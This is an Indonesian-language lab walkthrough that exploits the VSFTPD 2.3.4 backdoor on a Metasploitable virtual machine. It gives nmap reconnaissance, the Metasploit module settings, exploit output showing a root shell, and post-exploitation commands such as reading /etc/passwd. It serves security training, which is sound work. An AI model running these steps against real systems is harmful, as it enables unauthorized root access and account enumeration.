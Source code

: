 # Introduction

**Vsftpd**, singkatan dari **_Very Secure FTP Daemon_**, adalah server FTP (_File Transfer Protocol_) yang dirancang dengan fokus utama pada keamanan dan stabilitas. Vsftpd dibuat untuk menjadi server FTP yang ringan, cepat, dan tangguh, yang membuatnya sangat populer di lingkungan Linux.

Kerentanan pada **VSFTPD versi 2.3.4** bukan disebabkan oleh kesalahan pemrograman biasa (_bug_), melainkan karena adanya _backdoor_ yang disisipkan secara sengaja oleh pihak yang tidak bertanggung jawab.

Pada Juli 2011, terungkap bahwa _hacker_ berhasil menyusup ke dalam repositori kode sumber resmi VSFTPD. Mereka kemudian menyisipkan satu baris kode berbahaya ke dalam versi 2.3.4 yang kemudian dirilis secara publik.

Kerentanan ini sangat serius karena merupakan pintu belakang yang disisipkan secara sengaja dan memberikan hak akses tertinggi (_privilege escalation_). Kerentanan ini ditemukan dan diperbaiki dengan cepat, sehingga versi-versi VSFTPD yang lebih baru sudah tidak memiliki masalah ini.

**1. _Reconnaissence_**

- Analisis jaringan yang sedang dipakai untuk mengetahui IP yang digunakan

```
ifconfig
```
- Memindai seluruh jaringan internal yang saling terhubung untuk mencari target
```
nmap -sn <ip_range>

Ex. nmap -sn 192.168.1.0/24   //scanning the whole connected divices
```
**2. _Scanning and Enumeration_**

Memindai spesifik port dan layanan, port default FTP 21
```
nmap -p 21 -sV <ip_metasploitable>
```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 08:00:27:68:17:AC (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Unix
```
**3. _Gaining Access (Exploitation)_**
- Menjalankan Metasploit Framework
```
msfconsole
```
- Mencari modul eksploitasi yang sesuai dengan kerentanan yang ditemukan
```
search vsftpd 2.3.4
```

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

```
- Memilih dan mengatur eksploitasi
```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <ip_metasploitable>
set LHOST <ip_kali_linux>
```
- Cek _requirement_, pastikan tidak ada yang kurang atau terlewat
```
show options
```
- Jika sudah lengkap, jalankan serangan
```
exploit
```

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 192.168.22.64:21 - The port used by the backdoor bind listener is already open
[+] 192.168.22.64:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.22.63:33787 -> 192.168.22.64:6200) at 2025-08-21 07:03:24 -0400

```
**4. _Maintaining accsess dan Post exploitation_**
- Verifikasi user atau akses root
```
whoami
```
- Eksplorasi sistem
```
ls -l      //melihat list file dan direktory
```
```
uname -a   //melihat versi kernel dan informasi sistem
```
```
cat /etc/passwd  //melihat daftar user
```
